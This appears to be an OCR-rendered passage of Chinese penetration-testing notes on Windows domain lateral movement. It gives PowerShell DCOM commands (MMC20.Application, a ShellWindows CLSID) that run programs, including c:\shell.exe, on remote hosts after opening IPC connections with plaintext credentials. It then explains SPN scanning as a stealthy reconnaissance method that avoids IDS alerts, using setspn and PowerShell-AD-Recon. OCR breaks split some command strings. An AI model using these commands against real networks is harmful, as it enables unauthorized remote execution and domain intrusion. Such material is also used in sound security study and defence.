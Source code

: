 2，使用DCOM在远程机器上执行命令
在本地启动一个管理员权限的PowerShell，执行如下命令: 1，$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application ","127.0.0.1")) 2，$com.Document.ActiveView.ExecuteShellCommand(‘cmd.exe’,$null,”/c
calc.exe”,”minimzed”)

2，使用DCOM在远程机器上执行命令
1，建立ipc连接：
net use \\192.168.150.12 “tys@123!” /user:administrator
2，在远程系统中执行如下命令：
$com = \[activator\]::CreateInstance(\[type\]::GetTypeFromProgID(“MMC20.Applicatio n”,”192.168.150.12”))
3，运行如下命令： $com.Document.ActiveView.ExecuteShellCommand(‘cmd.exe’,$null,”/c calc.exe”,“”)

1，建立ipc连接：
net use \\192.168.150.7 “ndsec” /user:ndsec-pc\\ndsec
2，调用9BA05972-F6A8-11CF-A442-00A0C90A8F39
$com = \[Type\]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442- 00A0C90A8F39',"192.168.150.7") $obj = \[System.Activator\]::CreateInstance($

com) $item = $obj.item() $item.Document.Application.ShellExecute("cmd.exe","/c c:\\shell.exe","c:\\windows\\system32",$null,0)

# 9\. SPN在域环境中的应用

## Kerberos

服务主体名称（SPN）是Kerberos客户端用于唯一标识给特定Kerberos目标计算机的服务实例名称。Kerberos身份验证使用SPN将服务实例与服务登录
帐户相关联。如果在整个林中的计算机上安装多个服务实例，则每个实例都必须具有自己的SPN。如果客户端可能使用多个名称进行身份验证，则给定的服务实例可以具有多个SPN。例如，SPN总是包含运行服务实例的主机名称，所以服务实例可以为其主机的每个名称或别名注册一个SPN。

## SPN格式：

SPN = serviceclass “/” hostname \[“:”port\] \[“/” servicename\]
Serviceclass:服务组件名称
Hostname:以/ 分隔开,是计算机的FQDN(全限定域名,计算机名和域名)
Port:以:分隔开,是该服务监听的端口号
Servicename:一个字符串,可以是服务的专有名称(DN),objectGuid,Internet主机名或
全限定域名
常见的SPN服务,如MSSQL
MSSQLSvc/DC.tys1.com:1433

SPN扫描
spn扫描也可以叫扫描Kerberos服务实例名称，在Active Directory环境中发现服
务的最佳方法是通过“SPN扫描”。通过请求特定SPN类型的服务主体名称来查找
服务，SPN扫描攻击者通过网络端口扫描的主要好处是SPN扫描不需要连接到网络
上的每个IP来检查服务端口(不会触发ips,ids产生警告日志)。SPN查询是Kerberos
票据行为的一部分

1.  Setspn –T domain –q */* 扫描所有spn服务名称
    
2.  PowerShell-AD-Recon
    该工具包提供了一些探测指定SPN的脚本，例如Exchange，Microsoft
    SQLServer，Terminal等
    